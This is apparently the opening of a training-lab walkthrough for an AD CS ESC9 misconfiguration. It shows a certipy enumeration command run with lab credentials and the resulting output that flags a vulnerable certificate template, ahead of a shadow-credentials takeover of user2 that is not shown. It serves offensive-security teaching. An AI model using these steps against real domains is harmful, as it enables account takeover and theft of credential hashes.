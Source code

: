 ## ESC9

### Question 1

#### "Use certipy to takeover the account user2 with shadow credentials. What is the NT hash of user2?"

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC9` template suffers from the `ESC9` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
<SNIP>
 0
    Template Name                       : ESC9
    Display Name                        : ESC9
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
```